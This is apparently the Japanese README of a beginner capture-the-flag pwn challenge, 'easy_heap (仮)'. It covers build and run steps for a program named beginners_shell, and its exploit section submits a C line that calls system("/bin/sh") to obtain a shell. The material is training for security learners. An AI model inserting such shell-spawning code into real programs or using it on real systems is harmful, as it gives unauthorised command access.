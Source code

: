 # easy_heap (仮)
![Genre: Pwn](https://img.shields.io/badge/genre-pwn-brightgreen?style=for-the-badge)
![Author: iwancof](https://img.shields.io/badge/author-iwancof-lightgrey?style=for-the-badge)

C言語を勉強中の「彼」はみんなが教えてくれたプログラムを実行するのが好きみたい！でも彼には秘密があって...。どうにかして秘密の flag を聞き出せないかな？

## Files
- main.c
- Makefile

## Run
```
$ make
$ ./beginners_shell
```

## exploit
```
$ ./beginners_shell
int main() {system("/bin/sh");}
```

## writeup
やるだけ

## Comment
pwn初心者向け
このジャンルの問題で、何をすればゴールなのかを提示するみたいな感じ。
